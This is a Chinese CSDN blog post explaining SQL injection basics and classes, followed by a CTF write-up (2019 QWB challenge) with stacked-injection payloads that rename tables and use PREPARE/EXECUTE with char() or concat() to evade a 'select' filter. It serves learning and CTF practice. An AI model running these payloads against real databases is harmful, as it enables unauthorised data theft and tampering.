









<!--yml
category: 未分类
date: 2022-04-26 14:50:46
-->

# sql注入的初步了解以及CTF的一些题的wp_Tang_y1的博客-CSDN博客

> 来源：[https://blog.csdn.net/m0_55771794/article/details/118636134](https://blog.csdn.net/m0_55771794/article/details/118636134)

**目录**

[一丶Sql注入简介](#%E4%B8%80%E3%80%81Sql%E6%B3%A8%E5%85%A5%E7%AE%80%E4%BB%8B)

[二丶sql注入详解](#%E4%BA%8C%EF%BC%8Csql%E6%B3%A8%E5%85%A5%E8%AF%A6%E8%A7%A3)

[三丶sqli-labs ](#%E4%B8%89%E4%B8%B6sqli-labs%C2%A0)

[四丶sqli的分类](#%E5%9B%9B%E4%B8%B6sqli%E7%9A%84%E5%88%86%E7%B1%BB)

[五丶真题实践](#%E4%BA%94%E4%B8%B6%E7%9C%9F%E9%A2%98%E5%AE%9E%E8%B7%B5)

[        ](#%E6%96%B9%E6%B3%95%E4%B8%80%20%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5%E4%B8%8E%E9%87%8D%E5%91%BD%E5%90%8D)[方法一 堆叠注入与重命名](#%E6%96%B9%E6%B3%95%E4%B8%80%20%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5%E4%B8%8E%E9%87%8D%E5%91%BD%E5%90%8D)

[        ](#%E6%96%B9%E6%B3%95%E4%BA%8C%EF%BC%81%E9%A2%84%E5%A4%84%E7%90%86%E8%AF%AD%E5%8F%A5%E4%B8%8E%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5)[方法二！预处理语句与堆叠注入](#%E6%96%B9%E6%B3%95%E4%BA%8C%EF%BC%81%E9%A2%84%E5%A4%84%E7%90%86%E8%AF%AD%E5%8F%A5%E4%B8%8E%E5%A0%86%E5%8F%A0%E6%B3%A8%E5%85%A5)

* * *

## 一丶Sql注入简介

        Sql 注入攻击是通过将恶意的 Sql 查询或添加语句插入到应用的输入参数中，再在后台 Sql 服务器上解析执行进行的攻击，它目前黑客对数据库进行攻击的最常用手段之一。

## 二丶sql注入详解

        当我们访问动态网页时, Web 服务器会向数据访问层发起 Sql 查询请求，如果权限验证通过就会执行 Sql 语句。

这种网站内部直接发送的Sql请求一般不会有危险，但实际情况是很多时候需要**结合**用户的输入数据动态构造 Sql 语句，如果用户输入的数据被构造成恶意 Sql 代码，Web 应用又未对动态构造的 Sql 语句使用的参数进行审查，则会带来意想不到的危险。

        ***sql又叫Structured Query Language名为结构化查询语言。***

在我们的应用系统使用sql 语句进行管理应用数据库时，往往采用拼接的方式形成一条完整的数据库语言，而危险的是，在拼接 sql 语句的时候，我们可以改变 sql 语句。从而让数据执行我们想要执行的语句，这就是我们常说的 sql注入

**Sql 注入带来的威胁主要有如下几点：**

*   猜解后台数据库，这是利用最多的方式，盗取网站的敏感信息。
*   绕过认证，列如绕过验证登录网站后台。
*   注入可以借助数据库的存储过程进行提权等操作

## 三丶sqli-labs 

sqli-lab是一个印度的程序员写的，一个用来学习sqli的一个游戏教程

鉴于之前已经搭好了靶场，那我们就直接进入主题吧！

ps：若还没有搭建的，可在CSDN上自行搜索方法等等。

**注意，本文章偏向回忆性，因为之前已经做过了一些题，但是搞忘了。**

## 四丶sqli的分类

关于sqli有哪些分类

> **基于从服务器接收到的响应**
> 
> 1.基于错误的 SQL 注入
> 
>         2.联合查询的类型
> 
>         3.堆查询注射
> 
> 4.SQL 盲注
> 
>                 1.基于布尔 SQL 盲注
> 
>                 2.基于时间的 SQL 盲注
> 
>                 3.基于报错的 SQL 盲注
> 
> **基于如何处理输入的** **SQL** **查询（数据类型）**
> 
> •基于字符串
> 
> •数字或整数为基础的
> 
> **基于程度和顺序的注入** **(** **哪里发生了影响** **)**
> 
> 一阶注射
> 
> 二阶注射
> 
> 一阶注射是指输入的注射语句对 WEB 直接产生了影响，出现了结果；二阶注入类似存
> 
> 储型 XSS ，是指输入提交的语句，无法直接对 WEB 应用程序产生影响，通过其它的辅助间
> 
> 接的对 WEB 产生危害，这样的就被称为是二阶注入 .
> 
> **基于注入点的位置上的**
> 
>         通过用户输入的表单域的注射。
> 
> 通过 cookie 注射。
> 
>         通过服务器变量注射。 （基于头部信息的注射）

## 五丶真题实践

## 方法一 堆叠注入与重命名

这是2019强网杯的一道sqli 



*当尝试输入1'时，得到错误信息，于是从中可以知道使用 **'' **可以进行语句的闭合*

*使用联合查询，且咱发现只有两列，从反馈来看，这好像是过滤了一些字符*



*因为有错误反馈，所以我们试试基于错误的盲注,但是只能得到一点点消息。*



* 在网上查阅一番后，我了解到了堆叠查询*

*堆叠查询可以使用多条SQL语句，语句之间用**“ ；”**隔开*

*当使用mysqli_multi_query（）函数，会对传入数据进行一个预处理操作，所以不会存在堆叠注入的问题。*

*于是，不能用select的话，利用show databases来查看数据库*



* 查tables时*



*words表中的内容为*



* 进入一串数字的那个表看看，可以发现我们已经找到了flag，现在想办法把它弄出来*



*中和以上的信息，我们可以判断这个提交就是在表中查询数据，id和data，从words中选取，我们将words改为其他的，然后将数字表名改为words，flag改为id,相当于把使用的表改为flag所在的，然后输出flag的内容，*

```
-1';
rename table `words` to `word`;
rename table `1919810931114514` to `words`;
alter table `words` change `flag` `id` varchar(100);
show columns from words;--+
# ALTER TABLE tiger (表名) CHANGE tigername(要修改的列) name (修改后的列名) VARCHAR(20)(类型); 
```

*最后这样就可以得到flag啦！*

 

## 方法二！预处理语句与堆叠注入

这是在其他博主看来的，所以作为拓展与分享。

```
PREPARE name from '[my sql sequece]';   //预定义SQL语句
EXECUTE name;  //执行预定义SQL语句
(DEALLOCATE || DROP) PREPARE name;  //删除预定义SQL语句
```

运用到了char（）函数

*<u>CHAR()解释每个参数n为一个整数，并返回包含这些整数的代码值中给出的字符的字符串。NULL值被跳过。</u>*

**char(115,101,108,101,99,116)<----->'select'**

**可以直接使用char语句**

```
1';PREPARE hacker from concat(char(115,101,108,101,99,116), ' * from `1919810931114514` ');EXECUTE hacker;#
```

**也可以使用concat的拼接来绕过对于select的过滤**

```
1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#
```

**由于不太熟练，借鉴了一些wp，如有思路不正确之处，以及细节问题，希望大家指正，之后呢也会不定期的分享一些题的wp，或者一些学习经验，希望和大家一起成长！**